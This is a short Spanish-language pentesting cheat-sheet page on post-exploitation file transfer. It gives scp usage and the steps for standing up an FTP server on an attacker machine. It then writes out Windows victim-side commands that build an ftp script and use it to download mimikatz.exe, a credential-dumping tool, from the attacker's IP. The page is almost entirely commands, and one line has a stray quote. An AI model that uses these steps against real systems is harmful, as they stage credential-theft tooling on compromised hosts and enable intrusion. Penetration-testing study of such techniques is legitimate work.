 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

**Máquina Atacante**

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

**Máquina Víctima**

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.1.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario:

~~~bash
ftp -n -v -s:ftp.txt"
~~~

<h2>Recursos adicionales</h2>

[https://book.hacktricks.xyz/exfiltration](https://book.hacktricks.xyz/exfiltration)